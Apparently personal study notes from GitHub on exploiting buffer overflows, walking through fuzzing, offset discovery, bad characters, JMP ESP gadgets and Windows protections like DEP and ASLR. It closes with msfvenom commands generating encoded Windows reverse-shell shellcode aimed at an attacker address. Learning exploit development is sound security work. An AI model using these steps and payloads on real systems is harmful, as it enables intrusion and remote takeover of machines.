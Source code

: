 # Buffer Overrflows
> Tips and tricks to succesfully exploit buffer overflows on both Windows & Linux. Also included are a condensed version of my general notes on the topic. 

#### Checklist
- [ ] fuzz all inputs
- [ ] indentify the crash-causing buffer size
- [ ] find exact address of the writable area of memory with BST or unique pattern generation
- [ ] look for additional writable memory space, reverse shellcode typically needs 500-700 bytes
- [ ] check for bad characters
- [ ] identify all DLL's loaded with mona and find a DLL that satisfies the previously found requirements
- [ ] identify a JMP ESP instruction with msf-nasm_shell
- [ ] generate shellcode
	- [ ] Shikata Ga Nai encode to prevent bad characters
- [ ] nop sled to create to protect decoding
---- 
### General Notes
- Goal is to aim to write aribitrary code into the EIP register as this is the CPU register that stores the address of the next instruction to be executed
	- if we can overwite this address we can direct the program to execute code in any location we are able to overflow

- the ESP register stores the address of the current stack frame
	- basically is what controls the scope of local variables
	- common target for shellcode if EIP can be controlled

- most often associated with a memory operations in code like copying a string or moving data that accidentally overwrites other existing data in an unintended area of memory

- always check for bad characters that could cause the buffer overflow to be terminated early
	- look into the hex dump of where the bad characters were overflowing and see if any of them caused the buffer to terminate
		- if so sequential remove the bad characters to ensure the buffer can be properly written to
	- Common bad characters: 
		- 0x00 -> null byte 
		-  0x0A -> (HTTP) line feed
		- 0x0D -> (HTTP) line return

- [Mona](https://github.com/corelan/mona) extension for immunity debugger allows to search the entirety of a programs address space 


## Windows Buffer Overflows
- main mode of discovery is fuzzing
	- looking for applicatino crashes
- generally want to fuzz any input field the application offered

- Have to know exactly which part of the buffer is landing in the EIP register
	- 2 Methods:
		- **Binary Tree Analysis** -> splitting identified size of crash-causing buffer in half with two characters recursively until the exact address is identified
			- i.e. if the crash causing buffer was 800 chars, 400 A's and 400 B's would be sent in the same payload. If overwritten by B's, then that portion of the buffer would be split into 200 B's and 200 C's, etc. until we reach the exact bytes are identified that are overwriting the buffer. 
		- **Unique Pattern Iteration** -> uses a ruby script to generate unique sequence of 4 byte chunks equal to the size of the crash-causing buffer identified
			- this allows an easier way to identify exactly where the overwrite occurs according to which unique string of chars is written to EIP
			- ```/usr/share/metasploit-framework/tools/exploit/msf-pattern_create.rb -l [crash-causing buff size]```
			- ```/usr/share/metasploit-framework/tools/exploit/msf-pattern_offset.rb -l [crash-causing buffer] -q [hex representation overwrote to EIP]```

#### Buffer Overflow Protection Mechanisms on Windows
- DEP -> Data Execution Protection
	- hardware/software that perform extra memory access checks to make sure code is not execution from data pages
- ASLR -> Address Space Layout Randomization
	- randomizes the base address of a program and it's DLL's every time it is loaded so that exploitation of a statis memory address is not feasible
	- This is not implemented on WinXP
- CFG -> Control-Flow Guard 
	- prevents code from branching and overwriting memory address pointers

### MSFVenom Shellcode Payloads
- standard shellcode payload -> rev shell: 
	- ```msfvenom -p windows/shell_reverse_tcp LHOST=[my ip] LPORT=443 -f -c```
- Shikata Ga Nai encoded payload to prevent bad characters from stopping overwrite: 
	- ```msfvenom -p windows/shell_reverse_tcp LHOST=[my ip] LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\list\of\bad\chars\hex"```
		- Example: 
			- ```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 EXITFUNC=thread LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"```


